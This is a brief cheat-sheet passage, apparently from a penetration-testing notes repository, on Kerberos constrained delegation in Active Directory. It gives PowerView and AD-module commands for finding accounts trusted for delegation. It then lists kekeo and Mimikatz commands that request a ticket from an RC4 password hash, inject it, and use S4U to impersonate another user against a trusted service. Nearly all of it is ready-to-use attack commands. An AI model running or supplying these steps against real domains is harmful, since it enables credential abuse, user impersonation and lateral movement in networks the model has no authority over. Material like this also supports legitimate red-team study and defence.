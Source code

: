 ### Constrained Delegation
```powershell
- S4U2self > Trusted_To_Authenticate_For_Delegation
- S4U2proxy > msDS-AllowedToDelegateTo
```

Discover:
```powershell
> Powerview
Get-DomainComputer -TrustedToAuth
Get-DomainUser -TrustedToAuth
```

```powershell
> ADmodule
Get-ADObject -Filter {msDS-AllowedToDelegateTo -ne “$null”} -Properties msDSAllowedToDelegateTo
```

Exploit:

ask fot tgt and save it in a file:
```powershell
kekeo# tgt::ask /user:<user> /domain:<FQDN> /rc4:<hash>
Mimikatz# kerberos::ptt <path to ticket>
```

last step:
```powershell
kekeo# s4u /tgt:<path to ticket> /user:<user to be impersonificated@fqdn> /service:<service that the user has trust>
Mimikatz# kerberos::ptt <path to TGS>
```


 